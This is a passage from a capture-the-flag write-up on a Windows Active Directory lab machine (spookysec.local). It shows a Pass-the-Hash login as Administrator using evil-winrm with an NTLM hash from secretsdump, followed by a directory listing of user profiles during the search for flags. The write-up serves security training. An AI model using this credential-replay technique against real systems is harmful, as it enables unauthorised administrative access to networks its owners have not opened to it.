## Gaining Access and Privilege escalaton with Pass-the-Hash Attack

With the Administrator account hash obtained from the secretsdump, I performed a Pass-the-Hash (PTH) attack to authenticate as the Administrator without needing the plaintext password. This technique leverages the NTLM hash to gain access to the system.

Using the hash, we executed the following command to authenticate to the target machine:

```php
evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```
This step allowed me to successfully login as the Administrator and gain elevated privileges on the system.

![image.png](assets/screenshots/Attactive/7.webp)

## Retrieving the Flags

With elevated privileges, I can now proceed to collect the challenge flags. The root (or Administrator) flag is typically located in the Administrator user's desktop directory.

### Enumerating Remaining User Flags

With full administrative access, I can now enumerate all user profiles present on the machine. The goal is to locate any remaining user flags typically stored on the desktop of each user account.

To begin, I listed all user directories:
```php
    Directory: C:\Users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/17/2020   4:04 PM                a-spooks
d-----        9/17/2020   4:02 PM                Administrator
d-----         4/4/2020  12:19 PM                backup
d-----         4/4/2020   1:07 PM                backup.THM-AD
d-r---         4/4/2020  11:19 AM                Public
d-----         4/4/2020  12:18 PM                svc-admin
```

